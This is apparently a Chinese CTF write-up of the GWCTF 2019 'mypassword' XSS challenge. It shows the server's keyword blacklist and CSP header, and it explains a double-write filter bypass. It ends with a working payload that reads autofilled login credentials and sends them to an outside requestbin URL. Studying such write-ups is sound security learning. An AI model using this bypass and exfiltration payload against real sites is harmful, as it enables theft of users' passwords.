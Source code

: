 ```yaml
---
title: "XSS相关"
date: 2020-04-09
description: "记录CTF中遇到的XSS题型"
categories: [
  "CTF"
]
tags: [
  "XSS"
]
---
```


## [GWCTF 2019]mypassword

- 一通注入，失败，且登陆进去之后提示非注入

- 存在提交反馈页面，同时Header中给出CSP，大概率考察XSS

- 提交页面Ctrl+U，提示源码

  ```php
  <?php
  if(is_array($feedback)){
      echo "<script>alert('反馈不合法');</script>";
      return false;
  }
  $blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
  foreach ($blacklist as $val) {
      while(true){
          if(stripos($feedback,$val) !== false){
              $feedback = str_ireplace($val,"",$feedback);
          }else{
              break;
          }
      }
  }
  ```

  对`blacklist`中每个元素依次循环过滤，只需将最后的`cookie`插入其他关键字中即可双写绕过

- ```html
  Content-Security-Policy: default-src 'self';script-src 'unsafe-inline' 'self'
  ```

  CSP存在`script-src 'unsafe-inline'`，可以任意执行内联脚本

- 登陆页面存在`记住密码`功能，查看`./js/login.js`

  ```js
  if (document.cookie && document.cookie != '') {
    var cookies = document.cookie.split('; ');
    var cookie = {};
    for (var i = 0; i < cookies.length; i++) {
        var arr = cookies[i].split('=');
        var key = arr[0];
        cookie[key] = arr[1];
    }
    if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
        document.getElementsByName("username")[0].value = cookie['user'];
        document.getElementsByName("password")[0].value = cookie['psw'];
    }
  }
  ```

  构造XSS取出username和password

- Payload:

  ```HTML
  <inpcookieut type="text" name="username"></inpcookieut>
  <inpcookieut type="text" name="password"></inpcookieut>
  <scricookiept scookierc="./js/login.js"></scricookiept>
  <scricookiept>
    var na = documcookieent.getElemcookieentsByName("username")[0].value;
    var pw = documcookieent.getElemcookieentsByName("password")[0].value;
    documcookieent.locacookietion="http://http.requestbin.buuoj.cn/1iiqfqb1?a="+na+" "+pw;
  </scricookiept>
  ```

  密码即flag

  > 由于CSP`connect-src`留空，默认无法使用fetch或ajax，但允许ducument.location跳转